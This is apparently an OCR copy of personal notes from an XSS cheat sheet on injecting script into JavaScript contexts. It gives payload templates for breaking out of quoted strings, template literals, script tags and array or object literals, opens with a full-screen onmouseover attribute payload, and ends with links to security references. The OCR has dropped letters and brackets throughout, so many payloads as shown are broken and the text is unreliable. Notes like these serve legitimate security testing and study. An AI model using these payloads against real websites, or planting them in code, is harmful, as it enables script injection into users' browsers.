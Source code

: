  - Fl: `'onmoseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`


     ===========================================================


## [Execution] (4) - Inside JS
* Us: JS Arras/comments/functions/numbers/strings/objects/operators/template literals
* Brser will parse Html BEFORE running JS_
* Th **assume you're input/source is INSIDE** `<script>` & `</script>`

     - - - -  - - - - - - - - - - - - - - - - - - - - - - - - -

     **Break ut of String Context** within `<script>` & `</script>`
    + To _preent errors_, surround payload with _proper quotes_ and `+`s or `-`s
     - In thetemplates below the `'`, `"`, `backticks` are used to _exit the string context_
     - Then te `+` or `-` help prevent the JS for failing
    ``Templats
    script>
       ''+payoad+''   ''-payload-''
       ""+payoad+""   ""-payload-""
       ``+payoad+``   ``-payload-``
    /script>
    ``
    ``Example
    script>
     ''+alert)+'' 
      var inpt = ''+alert()+''
    /script>
    ``
    
    + When usng the **backtick**, while it can be used in a string, it can also _hold code_:
    `BACKTICK_Inject_Code
    `${code}`
    `${alert(}`
    ^---------- Only works on backticks (not "" or '')
    `

    + Use a _losing with an opening_ tag `</script><script>`
    ```Exampl
    script>
    let s = '/script><script>alert()//'
    /script>
    ```

     - - - -  - - - - - - - - - - - - - - - - - - - - - - - - -


     **Break ut of Array Context** within `<script>` & `</script>`
    ``',alert'
    1,'',aler(),'']
    `
    `',x:aler(),'
    umber:1,nme'',x:alert(),y:''}
    ``


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP